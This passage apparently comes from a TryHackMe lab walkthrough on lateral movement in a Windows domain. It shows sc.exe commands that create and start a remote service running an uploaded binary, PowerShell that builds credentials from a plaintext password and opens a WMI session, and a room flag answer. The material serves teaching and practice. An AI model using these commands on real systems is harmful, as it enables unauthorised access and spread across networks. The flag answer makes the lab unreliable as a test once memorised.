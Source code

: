 And finally, proceed to create a new service remotely by using sc, associating it with our uploaded binary:

THMJMP2: Command Prompt (As t1_leonard.summers)
```
C:\> sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto
C:\> sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

Be sure to change the name of your service to avoid clashing with other students.

Once you have started the service, you should receive a connection in your AttackBox from where you can access the first flag on t1_leonard.summers desktop.

> After running the "flag.exe" file on t1_leonard.summers desktop on THMIIS, what is the flag? `THM{MOVING_WITH_SERVICES}`

***

## <strong><font color="#34A5DA">Moving Laterally Using WMI</font></strong>

We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices. 

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways, which we'll discuss.

### <font color="#FFA500">Connecting to WMI From Powershell</font>

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password. This object will be stored in the `$credential` variable and utilised throughout the techniques on this task:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:

* **DCOM**: RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
* **Wsman**: WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the `$Session` variable, which we will use throughout the room on the different techniques:

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```
